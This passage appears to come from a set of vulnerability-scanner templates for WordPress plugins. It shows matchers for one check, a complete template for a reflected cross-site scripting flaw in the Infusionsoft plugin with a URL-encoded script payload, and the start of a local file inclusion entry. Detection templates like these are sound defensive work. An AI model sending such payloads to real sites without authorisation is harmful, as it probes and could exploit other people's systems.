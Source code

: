 **Type - dsl**
- dsl
    1. status_code_1 == 302 && status_code_2 == 200 && status_code_3 == 200
    2. contains(body_2, "[zm_gallery id=")
    3. contains(body_2, "\<th scope=\"row\" class=\"check-column\">")
    4. !contains(body_3, "\<th scope=\"row\" class=\"check-column\">")
- condition - and

---
# WordPress Infusionsoft Gravity Forms \<=1.5.11 - Cross-Site Scripting
## Description
- WordPress plugin Infusionsoft 1.5.11 and before contains a reflected cross-site scripting vulnerability which allows an attacker to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - cve,cve2016,wordpress,wp-plugin,xss,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/infusionsoft/Infusionsoft/examples/leadscoring.php?ContactId=%22%3E%3Cscript%3Ealert%28document.domain%29%3B%3C%2Fscript%3E%3C%22
### Matchers

**Type - word**
- words
    1. ">\<script>alert(document.domain);\</script>\<"
    2. input type="text" name="ContactId"
- condition - and
- part - body

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# Wordpress Zedna eBook download \<1.2 - Local File Inclusion
## Description
- Wordpress Zedna eBook download prior to version 1.2 was affected by a filedownload.php local file inclusion vulnerability.
